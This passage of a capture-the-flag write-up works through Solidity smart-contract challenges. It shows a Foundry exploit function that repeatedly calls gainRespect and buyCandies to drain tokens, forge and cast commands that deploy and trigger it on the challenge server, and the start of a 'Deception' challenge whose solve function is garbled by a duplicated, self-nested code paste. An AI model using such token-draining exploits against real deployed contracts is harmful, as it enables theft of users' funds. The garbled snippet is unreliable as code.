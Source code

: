 ```
    }

    function testExploit()public{
        _crewToken.mint(); // Mint 1 crew token
        _crewToken.approve(address(_fancyStore),1);
        _fancyStore.verification(); // Mint 10 candies

        // Gain respect
        _candyToken.approve(address(_localGang),100);
        _localGang.gainRespect(5);

        // Buy candies
        _respectToken.approve(address(_fancyStore),100);
        _fancyStore.buyCandies(5);

        for(uint256 i=0;i<10;i++){
            _localGang.gainRespect(5);
            _fancyStore.buyCandies(5);
        }

    }
}

```
1. Launch a new instance by connecting to the provided server.
2. Save the `rpc endpoint`,`private key` and the address of the `setup contract`, provided by the server.
3. Deploy the exploit contract
```
forge create ./test/Exploit.sol:Exploit --private-key <your_private_key> --rpc-url <your_rpc_url>
```
4. Call the `testExploit` function (present in the exploit contract)
```
cast send <address_of_exploit_contract> "testExploit()" --rpc-url <your_rpc_url> --private-key <your_private_key>
```
5. Connect to the server and get the flag.

![](/images/ctfs/crewctf23/crewctf-web33.png)

## Challenge 3: Deception
Just as the name suggests, there was a deception over here. Upon analyzing the `solve` function in the provided file `Deception.sol`, we discover that if the `keccak256` hash of our input evaluates to `0x65462b0520ef7d3df61b9992ed3bea0c56ead753be7c8b3614e0ce01e4cac41b`, the variable `solved` is set to `true`. Through a Google search, we ascertain that this hash corresponds to the string `secret`.

```
function solve(string memory secret) public {
    require(keccak256(abi.encodePacked(secret))== function solve(string memory secret) public {
      require(keccak256(abi.encodePacked(secret))==0x65462b0520ef7d3df61b9992ed3bea0c56ead753be7c8b3614e0ce01e4cac41b, "invalid");
      solved = true;
    }, "invalid");
    solved = true;
}
```
